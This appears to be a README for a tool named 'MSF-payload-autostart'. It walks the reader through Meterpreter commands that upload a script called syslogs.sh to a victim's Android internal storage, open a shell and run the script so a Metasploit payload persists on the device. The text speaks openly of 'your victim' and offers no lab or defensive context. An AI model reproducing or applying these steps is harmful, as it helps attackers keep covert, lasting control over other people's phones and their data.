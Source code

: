 # MSF-payload-autostart

## NOTE:- WORKS 100% IN RAW PAYLOAD AND LEAST CHANCE TO WORK IN BINDED PAYLOAD

UPLOADING PERSISTENT SCRIPT AND EXECUTING) 

Now when you get meterpreter session of your victim device to follow the below steps to upload persistent script and to make payload persistent on the victim device.

Ex :-

meterpreter> upload $HOME/MSF-payload-autostart/syslogs.sh  /sdcard

(Nowhere the persistent script will be uploaded to your victim's device internal storage)

meterpreter> cd /sdcard

meterpreter> ls

meterpreter> shell

meterpreter> ls

(Nowhere your victim's internal storage will be shown so here check if Syslogs.sh file is present or not if not then repeat the step1. if it is present then you can follow below step)

meterpreter> sh syslogs.sh

(Nowhere the process of persistent activity takes 10 Minutes after ten minutes you can exit from the process)
